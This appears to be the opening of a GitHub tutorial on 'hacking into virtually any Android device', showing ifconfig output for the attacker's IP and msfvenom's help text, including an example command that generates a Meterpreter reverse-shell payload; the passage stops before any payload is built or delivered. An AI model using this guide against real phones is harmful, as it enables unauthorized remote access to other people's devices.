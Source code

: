# Hacking Into Virtually Any Android Device  
*The first step to becoming a great hacker...Learn EVERYTHING*  
  
## Getting Started;  
I will be utilizing Kali Linux as my Hackers O.S., you can utilize Parrot OS if desired.  
I have a simple Samsung Galaxy S13  
  
The first thing I want to do is perform "ifconfig" in order to get my IP Address;  
```
$ ifconfig  
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet XXX.XXX.XXX.XXX  netmask 255.255.255.0  broadcast XXX.XXX.XXX.XXX
        inet6 XXXC:XXXC:XXXC:XXC::XXXC  prefixlen 128  scopeid 0x0<global>
        inet6 XXXC:XXXC:XXXC:XXC:XXXC:XXXC:XXXX:CCCX  prefixlen 64  scopeid 0x0<global>
        inet6 XXXC:CCCX:CXCX:XXX:CCC:CCXX:XXCC:XXCX  prefixlen 64  scopeid 0x0<global>
        inet6 CCCX::CCC:XXXC:XXCC:CCXC  prefixlen 64  scopeid 0x20<link>
        ether XX:CC:XC:CX:XX:CC  txqueuelen 1000  (Ethernet)
        RX packets 46092  bytes 33835073 (32.2 MiB)
        RX errors 0  dropped 5  overruns 0  frame 0
        TX packets 25389  bytes 6865051 (6.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10  bytes 580 (580.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10  bytes 580 (580.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
We are looking at our "_eth0_" networking card and will be utilizing the IP Address from the "_inet_" section.  
Now, we can take a look at another program called MSFVenom. We will view the Help guide in order to see what tools we can use.  
Take a moment to look over this document and see what all of our options are and understand them!  
```
$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
```